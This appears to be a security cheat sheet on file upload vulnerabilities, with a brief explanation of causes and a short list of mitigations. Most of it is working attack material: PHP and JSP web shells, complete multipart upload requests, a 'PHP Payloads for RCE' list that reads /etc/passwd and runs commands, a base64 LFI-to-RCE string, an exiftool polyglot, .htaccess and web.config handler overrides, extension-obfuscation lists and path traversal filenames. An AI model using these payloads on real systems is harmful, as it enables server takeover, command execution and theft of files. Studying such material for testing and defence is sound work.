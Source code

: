 # Description
**File Upload Vulnerability** occurs when a web application allows a user to upload files without properly validating or restricting the file type, content, or destination. This can enable an attacker to upload malicious files, such as web shells, scripts, or executable binaries, leading to remote code execution, data breaches, or defacement.

### How Does File Upload Vulnerability Occur?

1. **Lack of File Type Validation**: The web application does not check the file type, allowing any kind of file (e.g., PHP, JSP, EXE) to be uploaded.
2. **Insecure File Storage Location**: Uploaded files are stored in directories that are accessible to the web server, allowing execution of the uploaded code.
3. **Weak File Name Validation**: The application does not sanitize the file name, allowing special characters or file extensions to be used.
4. **Content-Type Header Manipulation**: If the application relies solely on the `Content-Type` header to validate the file type, an attacker can manipulate the header to bypass the validation.
5. **Insufficient Server-Side Checks**: Validation is performed on the client side, which can be easily bypassed by an attacker.

### Where to Put a File Upload Payload?

The payload is uploaded as a file through an HTTP request where the application allows file uploads. Typically, you upload the payload in places like:
- **Profile picture upload forms**
- **Document upload forms**
- **Image galleries**
- **Resume or CV submission fields**
- **Custom file submission forms**

### Examples of HTTP Requests with File Upload Payloads

Here are some examples of HTTP requests for uploading a file with a malicious payload:

#### 1. PHP Web Shell Upload

Uploading a simple PHP script as a file to get remote code execution.

**Malicious File Content (`shell.php`):**
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------12345
Content-Length: 221

-----------------------------12345
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo shell_exec($_GET['cmd']); ?>
-----------------------------12345--
```
In this example, the attacker uploads a file named `shell.php` that contains a PHP web shell. If the server stores the file in a web-accessible location, the attacker can execute commands by accessing `http://vulnerable-website.com/uploads/shell.php?cmd=ls`.

#### 2. Image Upload with Embedded PHP Code

Uploading an image file that contains embedded PHP code with a manipulated file extension.

**Malicious File Content (`image.php.jpg`):**
```php
<?php system($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------98765
Content-Length: 245

-----------------------------98765
Content-Disposition: form-data; name="file"; filename="image.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
-----------------------------98765--
```
The attacker uploads a file named `image.php.jpg`. If the server incorrectly identifies the file based on its extension rather than content, the attacker may execute commands by navigating to the uploaded file's URL.

#### 3. Bypassing Content-Type Validation

Some web applications check the `Content-Type` header to validate the file type. The attacker can manipulate the header to bypass this check.

**Malicious File Content (`shell.jsp`):**
```jsp
<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------54321
Content-Length: 256

-----------------------------54321
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: image/jpeg

<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
-----------------------------54321--
```
Here, the attacker uploads a JSP file disguised with a `Content-Type` of `image/jpeg`, hoping that the server only checks the header and not the actual content of the file.

### Preventing File Upload Vulnerabilities

To mitigate file upload vulnerabilities:
1. **Restrict File Types**: Allow only specific, safe file types (e.g., images, documents) and validate the file type server-side.
2. **Rename Uploaded Files**: Generate unique, randomized file names and avoid using the original file name.
3. **Store Files Outside the Web Root**: Keep uploaded files outside directories accessible by the web server to prevent direct access.
4. **Scan Uploaded Files**: Use antivirus or security tools to scan for malicious content.
5. **Limit File Size and Type**: Set restrictions on the maximum file size and check the content against expected MIME types.

File upload vulnerabilities can lead to severe security issues, making it essential to implement strong validation and handling measures.

# PHP Payloads for RCE

## Normal Payloads
```php
<?php echo file_get_contents('/etc/passwd'); ?> >> To read files
<?php system($_GET['cmd']); ?> >> For system command
<?php passthru($_GET['cyborg71']); ?> >> For system command*
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls >> LFI to RCE
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php

```
## Exploiting Server Configuration
___
### Apache Bypass
```
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell
Step 2 >>
filename="test.shell"
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
### IIS Bypass
```
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
## Obfuscating File Extensions
```
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
```
### Uploading files via path traversal vulnerability
In some cases you can exploit file upload vulnerability via path traversal. ```filename="../exploit.php"``` or url encoding ```filename="..%2fexploit.php```.
### Uploading files using PUT
```txt
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
